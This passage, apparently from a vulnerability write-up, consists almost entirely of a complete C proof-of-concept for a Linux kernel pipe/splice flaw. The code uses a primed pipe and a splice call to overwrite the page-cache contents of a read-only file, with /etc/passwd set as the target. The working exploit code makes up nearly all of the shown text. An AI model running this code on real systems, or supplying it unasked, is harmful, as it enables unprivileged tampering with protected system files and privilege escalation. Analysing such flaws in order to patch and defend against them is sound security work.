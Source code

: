 At this point, the file’s cached page is being used as the `pipe_buffer`'s backing page. Now, writing to the pipe should overwrite the file’s content. The following is the complete proof-of-concept.

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

#define TARGET_FILE "/etc/passwd"

int main() {
    int fd;
    int pipefd[2];
    char buffer[4096];

    // 1. Create pipe and open target file
    if ((fd = open(TARGET_FILE, O_RDONLY)) == -1) {
        perror("open");
        return 1;
    }

    if (pipe(pipefd) == -1) {
        perror("pipe");
        return 1;
    }

    // 2. Shrink the pipe to 4096 bytes, fill the pipe and then drain it
    fcntl(pipefd[0], F_SETPIPE_SZ, sizeof(buffer));
    write(pipefd[1], buffer, sizeof(buffer));
    read(pipefd[0], buffer, sizeof(buffer));

    // 3. Trigger the vulnerability via splice
    if (splice(fd, NULL, pipefd[1], NULL, 1, 0) < 0) {
        perror("splice");
        close(fd);
        close(pipefd[0]);
        close(pipefd[1]);
        return 1;
    }

    // 4. Overwrite the target file
    write(pipefd[1], "0xnull007", 9);

    lseek(fd, 0, SEEK_SET);
    read(fd, buffer, 60);
    buffer[60] = '\0'; // Null-terminate the buffer

    printf("Data read from target file: %s\n", buffer);

    return 0;
}

```
